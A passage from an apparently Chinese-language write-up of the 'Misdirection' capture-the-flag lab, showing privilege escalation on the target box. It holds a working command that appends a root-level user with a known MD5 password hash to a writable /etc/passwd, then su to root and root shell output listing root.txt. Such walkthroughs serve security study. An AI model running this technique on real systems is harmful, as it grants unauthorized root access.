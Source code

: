   ```
  sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
  brexit:x:1000:1000:brexit:/home/brexit:/bin/bash
  mysql:x:111:113:MySQL Server,,,:/nonexistent:/bin/false
  brexit@misdirection:/var/www/html/debug$ ls -lhai /e    pass
  ls -lhai /etc/passwd
  153253 -rwxrwxr-- 1 root brexit 1.6K Jun  1  2019 /etc/passwd
  ```

- 增加新用户,写入root权限

  1. 使用openssl协议生成密码
  2. passwd 指定用于生成密码哈希值
  3. -1 指定`openssl passwd` 选项,用于表示使用MD5算法
  4. 123456 实际密码
  5. 将获取到的密码值写入到`/etc/passwd`文件中

- 成功获取root

- ```shell
  brexit@misdirection:/var/www/html/debug$ echo "rookie:$1$zeSZ.6Bl$uTrk7YihGqjrPlslUqBIO1:0:0:root:/root:/bin/bash" >> /etc/passwd
  <C4gyJaJ7t/:0:0:root:/root:/bin/bash" >> /etc/passwd
  brexit@misdirection:/var/www/html/debug$ su rookie
  su rookie
  Password: 123456
  
  root@misdirection:/var/www/html/debug#  whoami
   whoami
  root
  root@misdirection:/var/www/html/debug# uname -a
  uname -a
  Linux misdirection 4.15.0-50-generic #54-Ubuntu SMP Mon May 6 18:46:08 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
  root@misdirection:/var/www/html/debug# ip a
  ip a
  1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
      link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
      inet 127.0.0.1/8 scope host lo
         valid_lft forever preferred_lft forever
      inet6 ::1/128 scope host 
         valid_lft forever preferred_lft forever
  2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
      link/ether 00:0c:29:aa:9e:2f brd ff:ff:ff:ff:ff:ff
      inet 192.168.2.9/24 brd 192.168.2.255 scope global dynamic ens33
         valid_lft 1403sec preferred_lft 1403sec
      inet6 fe80::20c:29ff:feaa:9e2f/64 scope link 
         valid_lft forever preferred_lft forever
  root@misdirection:/var/www/html/debug# cd ~
  cd ~
  root@misdirection:~# ls -lhai
  ls -lhai
  total 60K
  524292 drwx------  6 root root 4.0K Sep 24  2019 .
       2 drwxr-xr-x 23 root root 4.0K Jun  1  2019 ..
  524356 -rw-------  1 root root   90 Sep 24  2019 .bash_history
  525209 -rw-r--r--  1 root root 3.1K Apr  9  2018 .bashrc
  524341 drwx------  2 root root 4.0K Jun  1  2019 .cache
  524344 drwx------  3 root root 4.0K Jun  1  2019 .gnupg
  543486 drwxr-xr-x  3 root root 4.0K Jun  1  2019 .local
  539567 -rw-------  1 root root  400 Jun  1  2019 .mysql_history
  525210 -rw-r--r--  1 root root  148 Aug 17  2015 .profile
  524352 -r--------  1 root root   33 Jun  1  2019 root.txt
  538555 drwx------  2 root root 4.0K Jun  1  2019 .ssh
  524365 -rw-------  1 root root  12K Sep 24  2019 .viminfo